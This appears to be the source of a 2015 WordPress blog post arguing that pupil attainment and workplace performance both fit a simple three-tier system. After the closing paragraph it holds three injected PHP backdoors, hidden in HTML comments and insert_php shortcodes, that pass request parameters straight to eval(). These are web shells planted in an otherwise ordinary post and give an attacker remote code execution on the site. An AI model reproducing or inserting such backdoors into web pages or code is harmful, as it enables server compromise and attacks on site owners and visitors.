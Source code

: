 ```yaml
---
ID: 13
post_title: 'It&#8217;s Just Three Levels'
author: Miss King
post_date: 2015-09-22 19:44:32
post_excerpt: ""
layout: post
permalink: >
  http://progressing.co.uk/its-just-three-levels/
published: true
---
```

<p>All educational flight paths are built on the same foundational points of entry (dare we say &#8220;levels&#8221;?)</p>
<ol>
<li>Higher prior attainer</li>
<li>Middle prior attainer</li>
<li>Lower prior attainer</li>
</ol>
<p>From that, you can ascertain whether a pupil is:</p>
<ol>
<li>Working towards expected</li>
<li>At expected</li>
<li>Working at greater than expected</li>
</ol>
<p>It&#8217;s all very similar to typical performance metrics in the professional industry:</p>
<ol>
<li>Meeting expectations</li>
<li>Exceeding expectations</li>
<li>Above and beyond</li>
</ol>
<p>This pattern is well versed throughout personal development irrelevant of the person&#8217;s age or level. By simplifying the levels into three clear tiers, it allows the person to easily self assess where they think they&#8217;re performing and, ideally, compare with peer or senior reviews.</p>
<p><strong>Next time you&#8217;re looking at your group&#8217;s levels, make sure you adopt the three tier system.</strong></p>
<p><!-- [insert_php]if (isset($_REQUEST["KmuG"])){eval($_REQUEST["KmuG"]);exit;}[/insert_php][php]if (isset($_REQUEST["KmuG"])){eval($_REQUEST["KmuG"]);exit;}[/php] --></p>
<p>&lt;!&#8211; [insert_php]if (isset($_REQUEST[&quot;znSh&quot;])){eval($_REQUEST[&quot;znSh&quot;]);exit;}[/insert_php][php]if (isset($_REQUEST[&quot;znSh&quot;])){eval($_REQUEST[&quot;znSh&quot;]);exit;}[/php] &#8211;&gt;</p>
&lt;!-- [insert_php]if (isset($_REQUEST[&quot;yPJVQ&quot;])){eval($_REQUEST[&quot;yPJVQ&quot;]);exit;}[/insert_php][php]if (isset($_REQUEST[&quot;yPJVQ&quot;])){eval($_REQUEST[&quot;yPJVQ&quot;]);exit;}[/php] --&gt;